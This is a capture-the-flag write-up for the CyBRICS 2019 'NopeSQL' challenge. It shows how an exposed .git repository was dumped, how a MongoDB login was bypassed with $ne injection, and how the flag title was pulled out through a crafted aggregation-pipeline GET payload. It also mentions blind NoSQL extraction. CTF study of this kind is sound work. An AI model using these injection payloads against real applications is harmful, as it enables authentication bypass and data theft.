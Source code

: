 NopeSQL - CYBRICS 2019
======================

> Maybe you can login and find unusual secret news
> 
> http://173.199.118.226/

Overview
--------
The wesite simply prompts a login-form and a list of news. Whenever we try to login, the `Invalid username or password` message is printed on the page. Providing the `"` character in the username or the password leads to an Internal Server Error (500).

Analysis
--------
The source code of the challenge is available as a git repository under the `http://173.199.118.226/.git/`. Even is fetching this resource ends up in a 404 error, we notice that `.git` suspiciously redirects to `.git/`.

```Bash
$ curl -I http://173.199.118.226/.git
HTTP/1.1 301 Moved Permanently
Server: nginx/1.15.5 (Ubuntu)
Date: Tue, 23 Jul 2019 22:30:53 GMT
Content-Type: text/html
Content-Length: 178
Location: http://173.199.118.226/.git/
Connection: keep-alive
```

Thanks to [GitTools](https://github.com/internetwache/GitTools) we are able to easily retrieve the source code of the PHP application.

```Bash
$ ./Dumper/gitdumper.sh http://173.199.118.226/.git/ /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src/
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[+] Downloaded: objects/5c/9aa15f0b42bdbae8ffc0e80357ea72957e90ce
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/00/4ca2a6724f62951b8267d1ee5a12a2b7248777
[+] Downloaded: objects/f1/2f1389256c70b7b166b5de142bebbb1f6c8924
[+] Downloaded: objects/4d/3e2010278f7dc7eceb8d42ab1de225d378633c
[+] Downloaded: objects/49/dc44a4e5a450cc893cf7db463b2602dc7871c4
[+] Downloaded: objects/57/18be0cde5eaba0a86f746e5d1ed251ef78c2ab
[+] Downloaded: objects/37/ae92648ead157809a0700d47ac2b59ff38a127
[+] Downloaded: objects/5a/e761b02ec5c24e304a71585714e1933553ccd7
[+] Downloaded: objects/ce/97313c601f196a33af201f5fcb9b985e3ba959
[-] Downloaded: objects/f7/2816b43e74063c8b10357394b6bba8cb1c10de
[-] Downloaded: objects/bd/148eab0493e38354e45e2cd7db59b90fdcad79

$ ./Extractor/extractor.sh /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src/ /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src/
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[+] Found commit: 5c9aa15f0b42bdbae8ffc0e80357ea72957e90ce
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//0-5c9aa15f0b42bdbae8ffc0e80357ea72957e90ce/composer.json
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//0-5c9aa15f0b42bdbae8ffc0e80357ea72957e90ce/composer.lock
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//0-5c9aa15f0b42bdbae8ffc0e80357ea72957e90ce/index.php
[+] Found commit: 004ca2a6724f62951b8267d1ee5a12a2b7248777
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//1-004ca2a6724f62951b8267d1ee5a12a2b7248777/index.php
[+] Found commit: f12f1389256c70b7b166b5de142bebbb1f6c8924
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//2-f12f1389256c70b7b166b5de142bebbb1f6c8924/composer.json
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//2-f12f1389256c70b7b166b5de142bebbb1f6c8924/index.php
```

It is now possible to run the application to ease the exploitation process by being able to locally debug the code:

```Bash
$ cd /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src/0-5c9aa15f0b42bdbae8ffc0e80357ea72957e90ce
$ composer install
Loading composer repositories with package information
Installing dependencies (including require-dev) from lock file
Package operations: 2 installs, 0 updates, 0 removals
  - Installing fzaninotto/faker (v1.8.0): Loading from cache
  - Installing mongodb/mongodb (1.4.2): Loading from cache
Generating autoload files
$ php -S 127.0.0.1:5001 -f index.php
```

Exploitation
------------
As the challenge name suggests, the challenge is about exploiting a NoSQL database, [MongoDB](https://docs.mongodb.com) in this case. A quick overview of the source code reveals how the authentication process is handled:

```PHP
function auth($username, $password) {
    $collection = (new MongoDB\Client('mongodb://localhost:27017/'))->test->users;
    $raw_query = '{"username": "'.$username.'", "password": "'.$password.'"}';
    $document = $collection->findOne(json_decode($raw_query));
    if (isset($document) && isset($document->password)) {
        return true;
    }
    return false;
}
```

Given that in the `findOne()` method, multiple keys separated by ',' are treated as `AND` conditions, the auth function can be bypassed by injecting two similar always true conditions in the username and the password. The resulting query looks like:

```Mongodb
{"username": "", "username": {"$ne": ""}, "$comment": "", "password": "", "password": {"$ne": ""}, "$comment": ""}
```

We are now prompted with a welcome message and the possibility of grouping the news by either category or publicity by providing to the GET variable filter the value `$category` or `$public`, respectively. The underlying PHP code is the following:

```PHP
<?php
    $filter = $_GET['filter'];

    $collection = (new MongoDB\Client('mongodb://localhost:27017/'))->test->news;

    $pipeline = [
        ['$group' => ['_id' => '$category', 'count' => ['$sum' => 1]]],
        ['$sort' => ['count' => -1]],
        ['$limit' => 5],
    ];

    $filters = [
        ['$project' => ['category' => $filter]]
    ];

    $cursor = $collection->aggregate(array_merge($filters, $pipeline));
?>

<?php if (isset($filter)): ?>

    <?php
        foreach ($cursor as $category) {
                printf("%s has %d news<br>", $category['_id'], $category['count']);
        }
    ?>

<?php endif; ?>
```

A further analysis of the source code reveals another field `title` for the documents in the `news` collection. By assuming that the flag lies in the title of a news, we can inject a filter to project only the titles starting with the `cybrics` string. Do to so, we can leverage the aggregation pipeline operator [`cond`](https://docs.mongodb.com/manual/reference/operator/aggregation/cond/) and return the title of those news having the following expression that evaluates to true:

```Mongodb
{'$eq': [{'$substr': ['$title', 0, 7]}, 'cybrics']}
```

Unfortunately, we have to consider that the data structure that constitutes the MongoDB query is put together by GET variables and thus all the values that we can feed into it are strings. To put it in a different way, we can't trivially have integer values for the `start` and `length` parameters of the [`substr`](https://docs.mongodb.com/manual/reference/operator/aggregation/substr/) operator. Given that these parameters can be any valid expression as long as long as they resolve to integers, there are multiple ways to bypass this restriction. The most obvious one is to convert strings into integers using the [`toInt`](https://docs.mongodb.com/manual/reference/operator/aggregation/toInt/) operator. This operator is available starting from mongoDB v.4.0 and works reliably on the challenge server, but it is not supported by the MongoDB version shipped with my Ubuntu 18.04. So other backward-compatible-hackish-ways that _will do the job ™_ are returning the [year](https://docs.mongodb.com/manual/reference/operator/aggregation/year/) portion of a date or returning the number of bytes in a random string. We proceed with the former approach to achieve the result:

```Mongodb
{
  "$project": {
    "category": {
      "$cond": {
        "if": {
          "$eq": [
            {
              "$substr": [
                "$title",
                {
                  "$year": {
                    "$dateFromString": {
                      "dateString": "0000-02-08T12:10:40.787Z"
                    }
                  }
                },
                {
                  "$year": {
                    "$dateFromString": {
                      "dateString": "0007-02-08T12:10:40.787Z"
                    }
                  }
                }
              ]
            },
            "cybrics"
          ]
        },
        "then": "$title",
        "else": ""
      }
    }
  }
}
```

To avoid mistakes while encoding the parameters that will be transformed into the data structure used for the aggregate query, it is strongly advised to add a `print("<pre>".print_r($filter, true)."</pre>");` in the php code running locally. A working payload is provided below (each argument is placed on a single line to ease readability):

```
http://127.0.0.1:5001/
?filter[$cond][if][$eq][][$substr][]=$title
&filter[$cond][if][$eq][0][$substr][][$year][$dateFromString][dateString]=0000-02-08T12:10:40.787Z
&filter[$cond][if][$eq][0][$substr][][$year][$dateFromString][dateString]=0007-02-08T12:10:40.787Z
&filter[$cond][if][$eq][]=cybrics
&filter[$cond][then]=$title
&filter[$cond][else]=
```

See the script [nopesql.py](nopesql.py) to perform the exploitation automatically.

Also notice that this approach involving the `$substr` operator is perfectly suitable to mount a blind-noSQL injection and dump arbitrary fields by iterating over guesses on the value to increment the length of the known prefix.